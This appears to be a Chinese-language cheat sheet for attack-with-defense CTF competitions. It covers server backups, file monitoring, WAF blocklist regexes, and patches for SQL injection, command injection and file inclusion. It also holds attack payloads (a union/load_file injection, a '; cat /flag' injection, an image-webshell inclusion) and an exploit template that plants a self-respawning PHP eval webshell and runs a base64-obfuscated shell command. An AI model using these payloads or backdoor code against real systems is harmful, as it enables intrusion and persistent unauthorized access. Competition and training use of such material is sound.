

# AWD 步骤总结

## 备份

### 备份网站

```sh
./awd.py -i ip -p port -P password -u user backup html
```

解包

```sh
tar -xvf backup.tar.gz
```

### 备份数据库

在网站里找到数据库的配置文件

- thinkphp: /var/www/html/application/database.php

- yii2: /var/www/html/config/db.php
- 其他的：自己找

```sh
./awd.py -i ip -p port -P password -u user backup db -u root -p root -d ctf
```

恢复:

```sh
./awd.py -i ip -p port -P password -u user recovery db -u root -p root -d ctf
```

## 文件监控/WAF

> 不一定允许
>
> watchbird不一定允许，会出现特征
>
> 但是流量监控也许可用

文件监控

```sh
cd /var/www/html
/tmp/waf/cpython/python /tmp/waf/watch.py
```

监控当前目录下的文件变化：是否出现上传文件，是否有马落地，是否有恶意文件写入

安装 watchbird

> watchbird 只能装一次，多次安装会出错

```sh
./awd.py -i ip -p port -P password -u user waf watchbird install
```

```
?watchbird=ui
?guokeguokeguoke=ui
?birdwatch=ui
```

这个关键词需要你提前修改，不然很容易被发现

只安装流量监控

```sh
./awd.py -i ip -p port -P password -u user waf intercept install
```

有一个配置项位于`waf.php`开头

```php
<?php
error_reporting(E_ALL); // 是否开启报错，方便调试
// error_reporting(0); // 关闭报错
define("WAF_DUMP_FILE", "/tmp/log-{time}.log"); // 定义文件位置
```

卸载流量监控

```sh
./awd.py -i ip -p port -P password -u user waf intercept uninstall
```

## 漏洞挖掘

### 显而易见的后门

把备份文件直接扔进 D 盾，可能会出现低级的后门

### 刻意设置的漏洞函数

#### sql 注入

> php7 mysqli 面向对象/面向过程
>
> mysqli_query(...);
>
> $conn.query(...);
>
> php5 mysql
>
> mysql_query(...);

```php
<?php
// ...
$id = $_GET['id'];
$id = get('id');
// ...
mysqli_query($conn, "SELECT * FROM user WHERE id='$id'");
```

```sql
select load_file("/flag");
# username password
' union select load_file('/flag'), 0 ;#
```

修复

```php
<?php
// ...
$id = $_GET['id'];
// ...
mysqli_real_escape_string($conn, $id);
mysqli_query($conn, "SELECT * FROM user WHERE id='$id'");
```

#### 命令执行

```php
<?php
// ...
$id = $_GET['id'];
// ...
shell_exec("ping -c4 $id"); # system...
```

```
127.0.0.1; cat /flag
```

修复

```php
<?php
// ...
$id = $_GET['id'];
// ...
$id = escapeshellarg($id);
shell_exec("ping -c4 $id");
```

#### 文件包含

```php
<?php
// ...
$id = $_GET['id'];
// ...
include("/template/$id");
render($template); # include $template;
```

上传一个图片马到 `/upload/a.png`

访问使得 `id=../upload/a.png`

包含文件马 rce

> 包括其他功能点本身就是漏洞的地方

黑名单

```php
<?php
function blacklist($content, $black) {
  if(preg_match($black, $content)) {
    die('no way!');
  }
}

function whitelist($content, $black) {
  if(!preg_match($black, $content)) {
    die('no way!');
  }
}

// ...
$id = $_GET['id'];
blacklist($id, '/\/flag|system\(|/');
// ...
>
```

#### 黑名单类型(相当于 waf)

> 黑名单如果太强，可能会把正常请求过滤
>
> 上完黑名单，检查check

1. SQL 注入

```
/drop |dumpfile\|INTO FILE|outfile\b|load_file\b|multipoint\(|select|union/i
```

2. rce

```
/`|var_dump|str_rot13|serialize|base64_encode|base64_decode|strrev|eval\(|assert\(|file_put_contents|fwrite|curl_exec\(|passthru\(|exec\(|dl\(|readlink|popepassthru|preg_replace|create_function|array_map|call_user_func|array_filter|usort|stream_socket_server|pcntl_exec|passthru|exec\(|system\(|chroot\(|scandir\(|chgrp\(|chown|shell_exec|proc_open|proc_get_status|popen\(|ini_alter|ini_restore|ini_set|LD_PRELOAD|_GET|_POST|_COOKIE|_FILE|i-ni_alter|ini_restore|ini_set|_GET|_POST|_COOKIE|_FILE/i
```

3. 文件上传（后缀白名单

```php
$ext = pathinfo($_FILES['file']['name'],PATHINFO_EXTENSION);
blacklist($ext, '/jpg|png|gif|txt/i');
```

```
/jpg|png|gif|txt/i
```

4. 反序列化

针对框架和链子

5. flag

```
/flag|base64|php/i
```

### 框架已知漏洞,0day,在野已公开漏洞

收集漏洞库，爬取先知安全客

## 跑 exp

```python
./exp.py -i ip -p port -e exp
```

```
'192.168.[1:60].1' -> ['192.168.1.1', '192.168.2.1', ..., '192.168.60.1']

'[10001:10301:100]' -> [10001, 10201, 10301]
```

exp 格式：

```python
import requests
from flag import FLAG_RE
from ip import ip_sign
import base64

id = 1 # 题目id

name = "/.index.php" # 改成要落地的文件名


payload = f"""
file_put_contents('/var/www/html/{name}', '<?php eval($_POST["ip_sign"]);');
"""

backdoor = f"""
ignore_user_abort(1);
set_time_limit(0);
unlink(__FILE__);

while(true) {
  file_put_contents('/var/www/html/{name}', '<?php eval($_POST["ip_sign"]);');
  usleep(5000);
}
"""

cmd = """
system('cat /flag');
"""

cmd = """
system('echo Y2F0IC9mbGFnIHwgYmFzZTY0Cg== | base64 -d | sh');
"""

def exp(ip, port):
  url = 'http://{}:{}'.format(ip, port)
  sign = ip_sign(url, 'awd-is-fun') # 获得靶机签名，盐记得改
  p = payload.replace('ip_sign', sign)
  # p = backdoor.replace('ip_sign', sign)
  s = requests.Session()
  # 如果需要注册+登录
  username = sign + "_user" # 注册的用户名
  password = sign + "_pass" # 注册的密码
  s.post(url + '/register', data={'username': username, 'password': password})
  s.post(url + '/login', data={'username': username, 'password': password})
  # -----
  s.post(url + '/path/to/vuln', data={
    "payload": p
  }) # 发送payload
  # -----

  resp = s.post(url + name, data={
    sign: cmd
  }).text # 命令执行
    
  # resp = base64.b64decode(resp.encode()).decode()

  flag = FLAG_RE.findall(resp)[0] # 找到flag

  return flag
```


针对以上脚本，我们对于不同类型的漏洞利用方式基本相同




